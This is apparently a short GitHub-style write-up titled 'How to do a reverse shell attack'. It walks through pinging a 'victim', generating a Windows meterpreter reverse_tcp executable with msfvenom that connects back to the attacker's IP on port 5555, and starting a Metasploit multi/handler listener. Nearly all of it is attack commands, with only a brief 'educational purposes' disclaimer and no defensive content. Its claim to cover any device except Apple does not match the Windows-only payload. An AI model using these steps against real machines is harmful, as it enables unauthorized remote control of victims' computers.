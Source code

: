# How to do a reverse shell attack

Write-up of how to do a reverse shell attack to any type of device, but Apple devices.

**¡¡DISCLAIMER:** <br />
		**I'm doing this only for educational purposes.**<br />
		**I'm not responsible of any illegal uses.**<br />
		**The bad use of this Write-up may cause damage to the victim!!**<br />

Before starting, we need to get our victim's IP to do this type of attack
1. **Check if the victim's IP is up.**
	```
	ping [IP]
 	```

3. **Create a folder with a basic name and get into that folder.**
	```
	mkdir [folder-name] && cd [folder-name]
	```


5. **On the folder created previously execute the command below:**
	```
 	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR-IP] LPORT=5555 -f exe > path/to/the/folder/of/step/2/[name].exe
	```


7. **Open metasploit and execute this command:** 
	```
	use exploit/multi/handler
 	```


9. **Once executed the previous command, set-up the payload, in this case meterpreter -- reverse_tcp, for that execute the command below:**
	```
 	set payload windows/meterpreter/reverse_tcp
	```


11. **When the command before get executed, introduce the necessary data to create the reverse shell connection, in this case these are the commands:**
	```
 	set LHOST (YOUR IP)
	set LPORT 5555
 	```


13. **Finally, execute the command below to start listening to possible reverse  shell connections.**
	```
	exploit
 	```

